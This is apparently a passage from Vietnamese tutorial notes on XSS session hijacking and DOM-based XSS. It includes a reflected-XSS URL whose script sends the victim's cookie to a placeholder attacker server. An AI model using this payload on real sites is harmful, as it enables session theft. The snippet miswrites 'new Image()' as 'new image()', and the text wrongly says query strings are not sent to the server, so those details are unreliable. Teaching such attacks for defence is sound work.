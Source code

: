 - Một ví dụ XSS Session Hijacking Diagram (Đánh cắp phiên cookie của người dùng)
- Điều kiện xảy ra:
  - Cookie được sử dụng để xác định phiên.
  - Không có `HTTPonly` cookie flag set
  - Không có xác thực đầu vào.

```js
http://victim-server?search=<script>var+img=new+image();img.src="http://attacker-server/" + document.cookie;</script> 
```

![](./img_xss/xss.png)

>### **DOM-based cross-site scripting** ###

- Đối với DOM kẻ tấn công có thể thao tác với dom để đưa vào payload XSS và được hiện thị ở trang web.

- Một điều quan trọng cần nhớ với dựa trên DOM là nó không được máy chủ web xử lý, nạn nhân chỉ cần nhấp vào liên kết được tạo thủ công tải trọng và kết xuất tải trọng được xử lý phía máy khách.
- Tải trọng XSS DOM không bao giờ được gửi đến máy chủ, bất kỳ thứ gì sau dấu # hoặc ? không được gửi đến máy chủ, do đó, tính năng lọc phía máy chủ và các cơ chế lọc khác như tường lửa ứng dụng web (WAF) hoặc các biện pháp bảo vệ bộ lọc XSS dành riêng cho framework như Xác thực yêu cầu ASP.NET sẽ không ngăn XSS dựa trên DOM, vì tải trọng vẫn còn và được thực thi phía khách hàng.
